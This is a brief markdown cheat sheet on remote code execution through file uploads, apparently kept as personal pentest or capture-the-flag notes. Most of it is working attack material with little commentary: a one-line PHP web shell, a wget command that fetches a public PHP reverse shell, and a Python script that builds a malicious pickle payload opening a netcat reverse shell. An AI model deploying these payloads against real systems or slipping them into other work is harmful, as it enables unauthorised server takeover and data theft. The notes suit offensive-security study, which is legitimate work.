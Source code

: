 ```yaml
---
layout: post
title: "rce"
keywords: "remote code execution, file upload"
---
```

#### PHP Webshell
```
<?php echo system($_GET["cmd"]); ?>
```

#### PHP Reverse Shell
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

#### JS Response Editing & Magic Bytes
[https://tryhackme.com/room/uploadvulns](https://tryhackme.com/room/uploadvulns)

#### Flask Pickle Deserialization
```
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat <IP> 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))

```